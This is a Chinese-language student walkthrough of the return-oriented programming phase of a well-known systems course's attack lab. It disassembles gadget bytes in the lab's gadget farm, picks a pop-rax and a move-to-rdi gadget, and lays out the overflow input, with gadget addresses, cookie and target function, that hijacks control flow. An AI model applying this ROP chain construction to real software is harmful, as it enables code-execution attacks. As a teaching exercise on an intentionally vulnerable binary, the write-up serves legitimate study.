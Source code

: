 攻击办法是利用已经存在的代码，而不是注入代码，这种方式称为`ROP攻击`
按照 lab 要求，需要的代码位置在`start_farm` 和 `end_farm`之间

明白了上面的情况，就可以开始进行实验
和`Phase 2`一样，仍然要将`cookie`放入`%rdi`中，根据实验给出的机器码，需要查找开头为`48 89`的指令， 且目的寄存器是`%rdi`
满足条件的有：

```asm
# 对应的指令地址是 4019a2
00000000004019a0 <addval_273>:
  4019a0:   8d 87 48 89 c7 c3    lea    -0x3c3876b8(%rdi),%eax
  4019a6:   c3

对应的指令地址是 4019c5
00000000004019c3 <setval_426>:
  4019c3:   c7 07 48 89 c7 90    movl   $0x90c78948,(%rdi)
  4019c9:   c3
```

`90`是`nop`指令，不影响功能
经查询后可以知道，这条指令是`movq %rax, %rdi`, 所以需要先将`cookie`保存到`%rax`
要完成这一操作，需要先将`cookie`保存在栈上，然后弹出到`%rax`中，所以满足要求的指令是：

```asm
popq %rax
```

对应的机器码是`58`, 查到的有：

```asm
# 对应的指令地址是 4019ab
00000000004019a7 <addval_219>:
  4019a7:   8d 87 51 73 58 90       lea    -0x6fa78caf(%rdi),%eax
  4019ad:   c3                      ret

# 对应的指令地址是 4019cc
00000000004019ca <getval_280>:
   4019ca:  b8 29 58 90 c3       mov    $0xc3905829,%eax
   4019cf:  c3
```

所以攻击的流程为：
先执行构造出指令：

```asm
popq %rax
movq %rax, %rdi
```

执行完后，然后跳转到`touch2`即可完成

所以输入的内容格式如下：

```c
----        // getbuf的输入缓冲区
----        // getbuf的输入缓冲区
0x4019ab    // 第一条指令的地址，这里选择满足要求的第一个
0x59b997fa  // cookie
0x4019a2    // 第二条指令的地址，这里选择满足要求的第一个
0x40184c    // touch2的地址
```
